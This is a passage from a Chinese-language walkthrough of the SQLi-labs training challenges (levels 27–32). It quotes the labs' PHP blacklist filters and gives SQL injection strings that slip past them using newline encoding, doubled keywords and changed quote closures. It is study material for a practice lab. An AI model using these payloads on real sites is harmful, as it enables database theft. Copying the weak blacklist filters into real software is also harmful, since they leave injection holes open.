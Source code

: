 换个闭合方式，其余同上

`-111"%0aUnioN%0aseLect%0a1,2,3|| "`

### 28 Trick with SELECT & UNION

这次是把union select合起来过滤

```php
function blacklist($id)
{
    $id = preg_replace('/[\/\*]/', "", $id); //strip out /*
    $id = preg_replace('/[--]/', "", $id); //Strip out --.
    $id = preg_replace('/[#]/', "", $id); //Strip out #.
    $id = preg_replace('/[ +]/', "", $id); //Strip out spaces.
    //$id= preg_replace('/select/m',"", $id);                    //Strip out spaces.
    $id = preg_replace('/[ +]/', "", $id); //Strip out spaces.
    $id = preg_replace('/union\s+select/i', "", $id); //Strip out UNION & SELECT.
    return $id;
}
```

我们可以组合起来双写绕过

`-111')%0aunion%0aunion%0aselectselect%0a1,database(),3 || ('`

...略

### 28a Trick with SELECT & UNION

这次过滤只剩`$id= preg_replace('/union\s+select/i',"", $id); `了，随便绕

`-111') union union select select 1,database(),3|| ('`

...略

### 29-31 WAF绕过

ubuntu上没弄jsp环境 略

### 32 Bypass addslashes()

```php
function check_addslashes($string)
{
    $string = preg_replace('/' . preg_quote('\\') . '/', "\\\\\\", $string); //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string); //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string); //escape double quote with a backslash
    return $string;
}
```

`preg_quote()` 需要参数 str 并向其中 每个正则表达式语法中的字符前增加一个反斜线。 

正则表达式特殊字符有： . \ + * ? [ ^ ] $ ( ) { } = ! < > | : -

`preg_replace` 函数执行一个正则表达式的搜索和替换。
